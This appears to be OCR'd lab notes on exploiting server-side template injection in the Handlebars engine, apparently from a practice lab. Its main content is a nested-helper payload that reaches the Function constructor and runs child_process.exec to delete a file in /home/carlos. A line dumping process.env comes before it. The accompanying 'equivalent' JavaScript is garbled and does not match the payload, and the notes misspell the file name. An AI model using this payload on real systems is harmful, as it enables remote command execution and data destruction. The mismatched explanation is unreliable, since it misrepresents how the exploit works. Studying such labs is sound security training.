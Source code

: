 // Demonstration of JSON.stringify(process.env) execution
// (In practice, this code would need proper execution context)
console.log("JSON.stringify(process.env):", JSON.stringify(process.env));

Step4:
Now to delete a molare.txt we use

wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}


Javascript code
// Initialize string values
let string = 's';
let split = 'e'.split(''); // Split the string 'e' into an array of characters

// Create a new array from the split result
let conslist = Array.from(split);

// Manipulate the array
conslist.pop(); // Remove the last element
conslist.push(String.prototype.constructor); // Push the constructor function of String
conslist.pop(); // Remove the last element

// Create a split string
let codelist = 'e'.split(''); // Split the string 'e' into an array of characters

// Add code to the array
conslist.push("return require('child_process').exec('rm /home/carlos/morale.txt');");
conslist.pop(); // Remove the last element

// Iterate over conslist
conslist.forEach(item => {
    // Apply operations from the 'codelist'
    let code = string.substring(0); // Simulate the 'string.sub.apply' operation
    console.log(code); // Output the result (for demonstration purposes)

    // In a real scenario, this would be a place to execute the code
    // Example execution (if the context allowed it):
    // eval(item); // This would execute the code, but it's dangerous
});
